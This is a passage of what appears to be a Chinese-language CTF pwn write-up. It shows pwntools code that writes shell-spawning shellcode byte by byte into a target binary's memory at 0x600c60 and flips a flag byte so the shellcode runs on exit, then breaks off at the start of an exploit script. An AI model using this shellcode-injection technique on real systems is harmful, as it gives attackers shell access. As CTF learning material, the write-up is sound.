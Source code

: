 [![](assets/1706959474-e7336453ca8156f3ae78e19aa0692429.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125151439-67188710-bb51-1.png)  
修改后：

[![](assets/1706959474-28923bb02e50feb14eac681065b0d3ce.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125151448-6cea491c-bb51-1.png)  
然后一位一位写 shellcode

```bash
shellcode = asm(shellcraft.sh()) 
for i in range(len(shellcode)): 
    write_value(hex(0x600c60+i), hex(shellcode[i]))
```

然后在 0x600c60 处逐字节写入 shellcode

[![](assets/1706959474-b984996381064d0f8255167e651749cc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125151505-76fe0100-bb51-1.png)  
再去修改 flag 为正，然后退出程序就可以执行 shellcode 了

```bash
write_value(b"0x600bcf", b"0xff")
```

### exp

```bash
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

#context(os = 'linux',log_level = "debug",arch = 'amd64')
s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
```